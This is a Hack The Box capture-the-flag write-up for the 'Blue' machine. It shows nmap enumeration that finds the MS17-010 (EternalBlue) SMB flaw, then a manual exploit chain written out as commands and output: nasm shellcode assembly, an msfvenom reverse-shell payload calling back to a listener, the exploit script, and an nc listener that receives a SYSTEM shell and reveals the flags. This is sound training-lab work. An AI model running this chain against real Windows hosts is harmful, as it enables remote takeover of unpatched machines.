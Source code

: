 ```yaml
---
title: Blue - Hack The Box
author: "0xPThree"
description: "N/A"
date: 2019-04-09
image: images/blue_logo.png
categories: [hackthebox, ]
format: html
editor: visual
jupyter: python3
toc: true
---
```



# USER
## Enumeration
```bash
[root:/git/htb/blue]# nmap -Pn -n -sCV 10.10.10.40 --open                                                                         (master✱)
  Not shown: 991 closed ports
  PORT      STATE SERVICE      VERSION
  135/tcp   open  msrpc        Microsoft Windows RPC
  139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
  445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
  49152/tcp open  msrpc        Microsoft Windows RPC
  49153/tcp open  msrpc        Microsoft Windows RPC
  49154/tcp open  msrpc        Microsoft Windows RPC
  49155/tcp open  msrpc        Microsoft Windows RPC
  49156/tcp open  msrpc        Microsoft Windows RPC
  49157/tcp open  msrpc        Microsoft Windows RPC
  Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

  Host script results:
  |_clock-skew: mean: 3m40s, deviation: 1s, median: 3m39s
  | smb-os-discovery:
  |   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
  |   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
  |   Computer name: haris-PC
  |   NetBIOS computer name: HARIS-PC\x00
  |   Workgroup: WORKGROUP\x00
  |_  System time: 2021-02-24T13:00:40+00:00
  | smb-security-mode:
  |   account_used: guest
  |   authentication_level: user
  |   challenge_response: supported
  |_  message_signing: disabled (dangerous, but default)
  | smb2-security-mode:
  |   2.02:
  |_    Message signing enabled but not required
  | smb2-time:
  |   date: 2021-02-24T13:00:38
  |_  start_date: 2021-02-24T12:54:58


[root:/git/htb/blue]# nmap -p139,445 --script vuln 10.10.10.40                                                                    (master✱)
  Host script results:
  |_smb-vuln-ms10-054: false
  |_smb-vuln-ms10-061: NT_STATUS_OBJECT_NAME_NOT_FOUND
  | smb-vuln-ms17-010:
  |   VULNERABLE:
  |   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
  |     State: VULNERABLE
  |     IDs:  CVE:CVE-2017-0143
  |     Risk factor: HIGH
  |       A critical remote code execution vulnerability exists in Microsoft SMBv1
  |        servers (ms17-010).
  |
  |     Disclosure date: 2017-03-14
  |     References:
  |       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
  |       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
  |_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
```

## Exploit MS17-010
Just like the box `legacy` this device is vulnerable to ms17-010, EternalBlue (as suggested by the box name).
Trying to execute the same exploit and payload however gives us an error, so we need to find another approach.

```bash
[root:/git/htb/blue]# python send_and_execute.py 10.10.10.40 ms17-010.exe                                                         (master✱)
  Trying to connect to 10.10.10.40:445
  Target OS: Windows 7 Professional 7601 Service Pack 1
  Not found accessible named pipe
  Done
```

Assemble the shellcode to binary, here we need to know the architecture (x64 or x86) but Im assuming it's x64 so lets start with that.

```bash
[root:/git/htb/blue]# nasm -f bin eternalblue_kshellcode_x64.asm -o sc_x64_kernel.bin
```

Generate binary payload:
```bash
[root:/git/htb/blue]# msfvenom -p windows/x64/shell_reverse_tcp LPORT=4488 LHOST=10.10.14.10 --platform windows -a x64 --format raw -o sc_x64_payload.bin
  No encoder specified, outputting raw payload
  Payload size: 460 bytes
  Saved as: sc_x64_payload.bin
```
Concentrate payload & shellcode:
```bash
[root:/git/htb/blue]# cat sc_x64_kernel.bin sc_x64_payload.bin > sc_x64.bin
```

Exploit and grab all the flags.
```bash
[root:/git/htb/blue]# python eternalblue_exploit7.py 10.10.10.40 sc_x64.bin                                                       (master✱)
  shellcode size: 1232
  numGroomConn: 13
  Target OS: Windows 7 Professional 7601 Service Pack 1
  SMB1 session setup allocate nonpaged pool success
  SMB1 session setup allocate nonpaged pool success
  good response status: INVALID_PARAMETER
  done


[root:/git/htb/blue]# nc -lvnp 4488                                                                                               (master✱)
  listening on [any] 4488 ...
  connect to [10.10.14.10] from (UNKNOWN) [10.10.10.40] 49158
  Microsoft Windows [Version 6.1.7601]
  Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

  C:\Windows\system32>whoami
    nt authority\system

  C:\Users\haris\Desktop>type user.txt
    4c546aea7dbee75cbd71de245c8deea9

  C:\Users\Administrator\Desktop>type root.txt
    ff548eb71e920ff6c08843ce9df4e717
```

# References
- [ms17-010 EternalBlue manual exploit](https://root4loot.com/post/eternalblue_manual_exploit/)
- [ms17-010 shellcode](https://github.com/worawit/MS17-010/tree/master/shellcode)
  
